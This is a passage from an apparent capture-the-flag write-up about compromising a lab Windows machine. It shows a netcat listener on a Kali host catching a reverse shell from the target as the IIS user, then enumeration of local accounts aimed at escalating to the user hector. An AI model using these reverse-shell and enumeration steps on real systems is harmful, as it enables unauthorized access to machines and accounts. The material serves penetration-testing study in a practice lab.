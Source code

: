     
    root@kali# rlwrap nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.167.
    Ncat: Connection from 10.10.10.167:53175.
    Microsoft Windows [Version 10.0.17763.805]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\inetpub\wwwroot>whoami
    nt authority\iusr
    

## Priv: manager –> hector

### Enumeration

I see that hector is the user on the box:

    
    
    PS C:\users> dir
    
    
        Directory: C:\users
    
    
    Mode                LastWriteTime         Length Name                                                                  
    ----                -------------         ------ ----
    d-----        11/5/2019   2:34 PM                Administrator
    d-----        11/1/2019  11:09 AM                Hector
    d-r---       10/21/2019   5:29 PM                Public
    

And that he’s in the Remove Management Users group:

    
    
    PS C:\users> net user hector
    User name                    Hector
    Full Name                    Hector
    Comment                      
    User's comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            11/1/2019 11:27:50 AM
    Password expires             Never
    Password changeable          11/1/2019 11:27:50 AM
    Password required            Yes
    User may change password     No
    
    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   11/6/2019 5:37:51 PM
    